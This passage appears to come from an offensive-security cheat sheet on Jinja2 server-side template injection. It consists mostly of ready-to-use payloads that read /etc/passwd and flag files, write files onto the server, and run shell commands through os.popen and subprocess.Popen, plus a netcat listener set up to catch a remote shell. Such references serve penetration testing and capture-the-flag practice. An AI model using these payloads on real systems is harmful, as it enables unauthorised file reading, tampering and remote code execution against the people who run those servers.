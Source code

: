### Jinja2 - Read remote file

```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

### Jinja2 - Write into remote file

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Jinja2 - Remote Code Execution

Listen for connection

```bash
nc -lnvp 8000
```

#### Exploit the SSTI by calling os.popen().read()

These payloads are context-free, and do not require anything, except being in a jinja2 Template object:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

We can use these shorter payloads (this is the shorter payloads known yet):

```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}

{{ joiner.__init__.__globals__.os.popen('id').read() }}

{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

Source [@podalirius_](https://twitter.com/podalirius_) : https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/

#### Exploit the SSTI by calling subprocess.Popen

:warning: the number 396 will vary depending of the application.

```python
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
